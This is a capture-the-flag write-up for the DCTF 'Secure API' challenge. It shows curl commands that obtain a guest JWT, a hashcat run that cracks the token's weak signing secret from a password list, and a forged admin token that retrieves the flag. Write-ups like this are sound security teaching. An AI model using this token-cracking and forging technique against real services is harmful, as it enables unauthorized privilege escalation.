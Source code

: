 # Secure API

## Challenge:

Frontend is overrated! API rocks! http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/

## Solution:

If we look at the URL we’re given it’s clearly an API.

```bash
$ curl http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/
{"Error":"Authorization header not found! Try to login with guest credentials."}
```

We can try setting an `Authorization` [header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Authorization) as it suggests, but `curl -u ‘username:password’` makes this easy for us:

```bash
$ curl -u 'guest:guest' http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/
{"Error":"Authorization header not found! Try to login with guest credentials."}
```

Unfortunately that still isn’t working.

But, it turns out there’s a login endpoint:

```bash
$ curl http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

Let’s try to send a username and password as JSON:

```bash
$ curl -H 'Content-Type: application/json' http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login -d '{"username": "guest", "password": "guest"}'
{"Error":"Missing username or password field."}
```

That didn’t work. But the word “field” is a clue. What if we treat this like an HTML form:

```bash
$ curl -X POST -F 'username=guest' -F 'password=guest' http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login
{"Token":"Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMTgwMjk1fQ.g3Mln7hQArxS_aA5eTNg5KPtLKFM6eKDBy4IbemJ4OmIETkhI6m0ka4XJi69IBeW_ydTnRPpJ56mrE-X0M_BBQ"}
```

That worked! Now we have a bearer token we can use for the first link.

```bash
$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMTgwMjk1fQ.g3Mln7hQArxS_aA5eTNg5KPtLKFM6eKDBy4IbemJ4OmIETkhI6m0ka4XJi69IBeW_ydTnRPpJ56mrE-X0M_BBQ' http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/
{"Message":"Hi, guest! You are not admin, I have no secret for you."}
```

We can try to [re-encode the token](https://jwt.io/) and call ourselves admin, but without a valid signature, it fails:

```bash
$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjIxMTgwMjk1fQ.7uYliYA73N3GIe6YhZvWpfjQxAyNWd-_qWikjG39UCpdD4lfWCAnjPR523htJb-lRtzUkOJ3E5XWsQ261J4rYQ' http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/
{"message":"Authorization failed!"}
```

It looks like we need to find the secret so we can sign a new token. We can try using [hashcat](https://hashcat.net/) to crack it.

We could brute force it with something like `hashcat jwt.txt -m 16500 -a 3`, but that will take a little while. Let’s try a [password list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top10000.txt) instead:

```bash
$ hashcat jwt.txt -m 16500 darkweb2017-top10000.txt
hashcat (v6.1.1) starting...

...

Host memory required for this attack: 204 MB

Dictionary cache built:
* Filename..: darkweb2017-top10000.txt
* Passwords.: 9999
* Bytes.....: 82603
* Keyspace..: 9999
* Runtime...: 0 secs

...

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMTgzNDA4fQ.z_BebT2HRYahSpjsbAyWlmdiNrxc6wAsg12ecsreUqQ:147852369

Session..........: hashcat
Status...........: Cracked
Hash.Name........: JWT (JSON Web Token)
Hash.Target......: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZS...sreUqQ
Time.Started.....: Sun May 16 18:31:00 2021 (0 secs)
Time.Estimated...: Sun May 16 18:31:00 2021 (0 secs)
Guess.Base.......: File (darkweb2017-top10000.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1590.7 kH/s (0.04ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9999/9999 (100.00%)
Rejected.........: 0/9999 (0.00%)
Restore.Point....: 0/9999 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> starstar

Started: Sun May 16 18:30:59 2021
Stopped: Sun May 16 18:31:01 2021
$ hashcat jwt.txt -m 16500 darkweb2017-top10000.txt --show
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMTgzNDA4fQ.z_BebT2HRYahSpjsbAyWlmdiNrxc6wAsg12ecsreUqQ:147852369
```

Almost immediately, we have our secret: `147852369`. Now let’s sign a JWT. We’ll update `username` to `admin` and generate an expiration value that we know has’t elapsed:

```bash
$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyNjIxMTgzNDA4fQ.peAoqak9Srsl0EhPb7lKM-DHg-vvdIOGZ3nlLhwMeu9UsVhubojK2SIp4W6GXrgXpRAt-Q9znmfiW8K44hOSZw' http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/
{"Message":"Hi, admin! I have a secret for you.","Secret":"dctf{w34k_k3y5_4r3_n0t_0k4y}"}
```

And that’s all it takes to get our flag: `dctf{w34k_k3y5_4r3_n0t_0k4y}`.
